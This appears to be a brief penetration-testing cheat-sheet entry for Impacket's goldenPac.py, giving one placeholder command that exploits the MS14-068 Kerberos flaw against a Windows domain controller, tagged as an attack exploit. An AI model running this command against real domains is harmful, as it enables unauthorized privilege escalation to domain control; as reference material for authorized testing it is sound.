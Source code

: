 # goldenPac (imp)

% impacket-kerberos, windows, kerberos, 88

## MS14-068 - goldenPac
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
goldenPac.py -dc-ip <dc_ip> '<domain>/<user>:<password>'@<target>
```
